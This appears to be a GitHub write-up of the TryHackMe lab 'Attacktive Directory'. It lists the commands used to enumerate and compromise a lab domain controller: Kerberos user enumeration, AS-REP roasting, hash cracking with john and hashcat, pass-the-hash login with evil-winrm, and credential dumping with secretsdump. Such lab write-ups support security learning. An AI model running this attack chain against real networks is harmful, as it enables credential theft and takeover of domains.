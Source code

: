 <div align="center">
                  
# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
![image](https://user-images.githubusercontent.com/51442719/177435882-34e6b079-d835-4ae0-9e97-6b39078e0c16.png)

</div>

- [x] Task 1  [`Intro` Deploy The Machine]()
- [x] Task 2  [`Intro` Setup]()
- [x] Task 3  [`Enumeration` Welcome to Attacktive Directory]()
- [x] Task 4  [`Enumeration` Enumerating Users via Kerberos]()
- [x] Task 5  [`Exploitation` Abusing Kerberos]()
- [x] Task 6  [`Enumeration` Back to the Basics]()
- [x] Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()
- [ ] Task 8  [`Flag Submission` Flag Submission Panel]()

---


---

- ## Task 1  [`Intro` Deploy The Machine]()

---

- ## Task 2  [`Intro` Setup]()

---

- ## Task 3  [`Enumeration` Welcome to Attacktive Directory]()

---

- ## Task 4  [`Enumeration` Enumerating Users via Kerberos]()

---

- ## Task 5  [`Exploitation` Abusing Kerberos]()

---

- ## Task 6  [`Enumeration` Back to the Basics]()

---

- ## Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()

---

- ## Task 8  [`Flag Submission` Flag Submission Panel]()

---

# Commands Used:

## Enumeration
```bash
nmap -p- -A -nP $IP
```

## DNS domain name and add it to `/etc/hosts`
```bash
echo $IP spookysec.local >> /etc/hosts
```

```bash
enum4linux -a spookysec.local
```

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```

```bash
find / -type f -name 'GetNPUsers.py'
```

## Exploiting Kerberos
```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
or
impacket-GetNPUsers -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```

```bash
smbclient -L \\\\$IP\\ -U 'svc-admin' -P 'm********t2005'
```

```bash
john kerbhash --wordlist=/passwords.txt
or
hashcat -a 0 -m 18200 kerbhash password.txt --force

```

```bash
smbmap -H spookysec.local -d spookysec.local -u svc-admin -p m********t2005
```

```bash
git clone https://github.com/Hackplayers/evil-winrm.git
```

```bash
cd evil-winrm 
gem install evil-winrm
```

```bash
evil-winrm -i $IP -u Administrator -H e48xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
impacket-secretsdump -dc-ip spookysec.local backup@spookysec.local
```


---

https://fr33s0ul.tech/attacktive-directory-thm-write-up/
